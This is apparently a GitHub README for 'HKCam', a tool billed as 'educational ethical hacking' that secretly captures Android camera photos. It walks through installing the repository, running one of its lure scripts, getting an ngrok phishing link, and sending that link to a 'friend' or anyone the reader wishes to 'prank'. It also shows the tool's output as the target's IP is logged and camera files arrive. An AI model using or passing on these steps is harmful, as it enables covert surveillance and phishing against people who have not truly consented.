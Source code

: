 # HKCam

Hello Guys this is an Educational Ethical Hacking Tool - Hack Android Mobile Camera

Follow this steps to install if your a beginner

Open the terminal

Kali linux 2020

$>\sudo apt-get update
$>\sudo apt-get upgrade
$>\sudo apt-get install git

"Git" is the to download a tool/repository/projects and clone it on the root folder

to clone my repository use this following command

$>\git clone https://github.com/EthicalHKRKid/HKCam.git

the above link is also on the right side corner "clone or download"

$>\ls

$>\cd HKCam

if it is download folder

just extract it and paste it on the root folder

and use the cd HKCam

or use this method to unzip

$>\cd Downloads

$>\unzip HKCam.zip

to copy the folder to root directory use this following command on terminal

$>\ cd Downloads> cp HKCam /root/

$>\ cd ..

$>\root>cd HKCam

$>\root>HKCam> ls

camscript.txt       menaminiki.html     trockers.sh
docker-compose.yml  menaminiki.sh       unblock_trockers_files
docker-serveo       mokkapostu_files    unblock_trockers.html
draupathi_files     mokkapostu.html     unblock_trockers.sh
draupathi.html      mokkapostu.sh       videomemes_files
draupathi.sh        ngrok               videomemes.html
funnyfactory_files  post.php            videomemes.sh
funnyfactory.html   saved.ip.txt        WhatsApp.sh
funnyfactory.sh     serveo              yaar_paatha_vela_da_ithu_files
index2.html         serveo-linux-amd64  yaar_paatha_vela_da_ithu.html
index.php           template.php        yaar_paatha_vela_da_ithu.sh
ip.php              trockers_files
menaminiki_files    trockers.html

$>\chmod +x *

$>\ls

select the .sh file as your wish copy the file name using the mouse and follow one the command

$>\bash Whatsapp.sh

or

$>\ ./WhatsApp.sh

   ░S░E░L░F░I░E░H░A░C░K░   
   ░C░A░M░E░R░A░H░A░C░K░   
   ░M░O░B░I░L░E░H░A░C░K░   
   Mennaminiki   
  !This is Stritly For Education Purpose Only!  


[01] Serveo.net
[02] Ngrok

[+] Choose a Port Forwarding option: 2

[+] Starting php server...
[+] Starting ngrok server...                                                
[*] Direct link: https://4xxxx9xio.ngrok.io                                  

[*] Waiting targets, Press Ctrl + C to exit...

Send the link to your friend / person you wish to prank

Serveo.net is not working
"Serveo is temporarily disabled due to phishing"

Ngrok is working well

after the link opened by your friend / the who you like to prank

[+] Target opened the link!
[+] IP: 241.221.789.123

After your friend allow the permissions on his/her android mobile phone

you able to capture the and receive on the HKCam Directory

[+]CamFile Received!

[+]CamFile Received!

[+]CamFile Received!

to close the tool press Ctrl+C

then type Exit



